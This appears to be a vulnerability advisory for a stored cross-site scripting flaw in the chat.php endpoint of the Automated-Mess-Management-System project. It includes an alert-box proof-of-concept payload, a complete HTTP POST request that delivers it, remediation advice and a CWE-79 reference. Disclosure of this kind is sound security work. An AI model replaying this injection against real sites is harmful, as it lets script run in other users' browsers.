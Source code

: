 # boyiddha / Automated-Mess-Management-System - /member/chat.php Stored XSS

## Vendor Homepage:
[Automated-Mess-Management-System](https://github.com/boyiddha/Automated-Mess-Management-System)

## Impact
The `/member/chat.php` endpoint in the Automated-Mess-Management-System is vulnerable to Stored Cross-Site Scripting (XSS) attacks, which could allow attackers to inject malicious scripts into the application. This vulnerability can have a significant impact, enabling attackers to execute arbitrary JavaScript code in the context of other users' browsers who access the chat feature.


## Proof of Concept
Step 1: Login as a member.\
Step 2: Go to chat book\
Step 3: send the following payload "><img src=x onerror=alert(1)>"\
Step 4: Injected xss will render on reload


## HTTP Request Example
``` http request
POST /member/chat.php HTTP/1.1
Host: [REDACTED]
Content-Length: 260
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYTGco3iyTv9NB0KO
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

------WebKitFormBoundaryYTGco3iyTv9NB0KO
Content-Disposition: form-data; name="msg"

><img src=x onerror=alert(1)>
------WebKitFormBoundaryYTGco3iyTv9NB0KO
Content-Disposition: form-data; name="submit"

send
------WebKitFormBoundaryYTGco3iyTv9NB0KO--

```
## Proof with Screenshot

## Remidiation
To mitigate this issue, developers should implement proper input validation and output encoding to prevent the execution of malicious scripts. Additionally, the application should sanitize user inputs to neutralize any potentially harmful content before rendering it in the browser.

## CWE
[CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
